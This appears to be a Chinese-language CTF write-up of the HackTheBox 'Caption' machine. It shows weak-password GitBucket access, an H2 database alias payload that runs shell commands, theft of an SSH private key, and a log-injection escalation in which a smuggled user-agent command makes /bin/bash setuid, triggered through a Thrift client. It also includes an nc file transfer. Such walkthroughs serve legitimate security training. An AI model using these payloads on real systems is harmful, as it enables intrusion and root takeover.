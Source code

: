 ```yaml
---
title: "HTB-Caption"
date: 2024-09-18
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap Scan

![](./images/image-221.png)

开放端口：`22`、`80`、`8080`

`caption.htb:80`👇是一个登陆界面

![](./images/image-222.png)

`caption.htb:8080`👇注意到是一个`Gitbucket`的服务

![](./images/image-223.png)

其中`GitBucket`可以使用弱密码登入：root-root

并且发现两个仓库：`Logservice`，`Portal`

![](./images/image-224.png)

在`Caption-Portal`仓库的提交历史中，发现了泄露的用户margo，以及密码

![](./images/image-226.png)

登录`80`端口，但并没有什么有价值的东西，Logs路由甚至是403Forbidden

![](./images/image-227.png)

## SQL RCE

在Gitbucket的管理界面发现了可以执行SQL语句的部分

并且暴露出了是H2数据库

![](./images/image-229.png)

Google搜索结果：[Chaining Vulnerabilities in H2 Database for RCE | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

```
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; 
}$$;
```

执行这段命令给exec起个别名，然后就能调用

![](./images/image-230.png)

在margo的文件夹下发现了ssh私钥文件

![](./images/image-231.png)

将其写入本地kali，注意格式化以及权限设置为600

![](./images/image-232.png)

得到user.txt

![](./images/image-233.png)

## Privilege Escalation

回到Gitbucket页面的另一个`Logservice`仓库，可以发现是用Go语言写的

![](./images/image-234.png)

并且还引入了`thrift`

![](./images/image-235.png)

并且是运行在9090端口上

![](./images/image-236.png)

将LogService进行git clone到margo目录下

![](./images/image-237.png)

```
#靶机执行开启服务
thrift --gen py log_service.thrift

#nc传输文件
margo@caption:~/Logservice$ nc -q 0 10.10.16.29 4321 < log_service.thrift
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# nc -lnvp 4321 > log_service.thrift

#kali安装库
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# pip3 install thrift
```

将靶机端口转发到kali上

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# ssh -i margo.key -L 9090:127.0.0.1:9090 margo@10.10.11.33 
```

写入恶意日志文件

```
margo@caption:~/Logservice$ cat /tmp/evil.log 
127.0.0.1 "user-agent":"'; /bin/bash /tmp/hyh.sh #"

margo@caption:~/Logservice$ cat /tmp/hyh.sh 
chmod +s /bin/bash
```

回到kali

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# thrift -r --gen py log_service.thrift
```

写入py文件

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# cat client.py   
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

def main():
    transport = TSocket.TSocket('127.0.0.1', 9090)
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = LogService.Client(protocol)
    transport.open()
    try:
        response = client.ReadLogFile("/tmp/evil.log")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        transport.close()

if __name__ == "__main__":
    main()
```

保存好后最后执行client.py

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# python client.py  
```

![](./images/image-238.png)

得到root.txt

## Summary

个人感觉还是有点抽象

提权部分主要的思路是写入恶意的日志文件，然后通过thrift的连接让客户端主动执行bash的权限提升

不过我搜索了一下好像并没有thrift的相关提权操作，这应该是thrift的特性？不知道是否是thrift的操作都具有最高权限。

相关的writeup

- [HacktheBox-Caption | 心流 (natro92.fun)](https://natro92.fun/posts/86683f6f/#thrift-PE)

- [HackTheBox: Caption | Str4ngerX (loghmariala.github.io)](https://loghmariala.github.io/posts/Caption/#exploitation)
